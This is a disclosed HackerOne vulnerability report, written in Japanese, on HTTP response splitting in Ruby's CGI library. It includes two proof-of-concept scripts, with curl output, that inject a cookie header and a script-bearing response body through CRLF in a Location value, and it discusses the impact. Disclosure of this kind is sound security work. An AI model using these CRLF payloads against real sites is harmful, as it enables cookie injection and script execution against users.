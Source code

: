 # RubyのCGIライブラリにHTTPレスポンス分割（HTTPヘッダインジェクション）があり、秘密情報が漏洩する

## Report Details
- **Report ID**: 1204695
- **URL**: https://hackerone.com/reports/1204695
- **State**: Closed
- **Severity**: high
- **Submitted**: 2021-05-21T01:10:02.734Z
- **Disclosed**: 2022-11-24T01:46:39.911Z

## Reporter
- **Username**: htokumaru
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ruby

## Vulnerability Information
PoC1:
```
#!/usr/bin/env ruby
require 'cgi'
cgi = CGI.new
url = "http://example.jp\r\nSet-Cookie: foo=bar;"     # External Parameter
print cgi.header({'status' => '302 Found', 'Location' => url})
```

Actual Result1:
```
$ curl -s -i http://localhost:8080/cgi-bin/cgi.ru
HTTP/1.1 302 Found
Date: Fri, 21 May 2021 00:46:33 GMT
Server: Apache/2.2.31 (Unix)
Set-Cookie: foo=bar;
Location: http://example.jp
Content-Length: 0
Content-Type: text/html

```

このケースでは不正なクッキーが注入される。


PoC2:
```
#!/usr/bin/env ruby
require 'cgi'
cgi = CGI.new
url = "http://example.jp\r\nStatus: 500\r\n\r\n<script>alert(1)</script>"  # External Parameter
print cgi.header({'status' => '302 Found', 'Location' => url})
```

Actual Result2:
```
$ curl -s -i http://localhost:8080/cgi-bin/cgi.ru
HTTP/1.1 500 Internal Server Error
Date: Fri, 21 May 2021 00:49:44 GMT
Server: Apache/2.2.31 (Unix)
Location: http://example.jp
Connection: close
Transfer-Encoding: chunked
Content-Type: text/html

<script>alert(1)</script>

```

このケースでは500 Internal Server Errorのため、Locationヘッダは無視され、JavaScriptが実行される。

## Impact

意図しないHTTPレスポンスヘッダやHTTPレスポンスボディを外部から注入できます。
単純なHTTPヘッダインジェクションでは、クッキーのインジェクションやリダイレクト等が主な影響となりますが、このケースでは、レスポンスボディが注入できるため、不正なJavaScript実行に及ぶため、影響が大きいと考えます。

他の言語の場合、PHPのheader関数は "\r"  "\n"   "\r\n"   等をすべてエラーにするため、上記の攻撃はできません。

過去のWEBrickやPumaにも類似の脆弱性がありましたが、これらは単独のキャリッジリターン "\r" による攻撃しかできず、リバースプロキシとしてNginxがあれば、Nginx側にてエラーになります。したがって、現実的な危険性はほとんどないと考えます。

https://www.ruby-lang.org/en/news/2019/10/01/http-response-splitting-in-webrick-cve-2019-16254/
https://github.com/puma/puma/security/advisories/GHSA-84j7-475p-hp8v

一方、今回報告した問題は、CGIの仕様上ウェブサーバーやリバースプロキシ側でエラーにすることはできないため、影響が現実的です。

## Attachments
No attachments
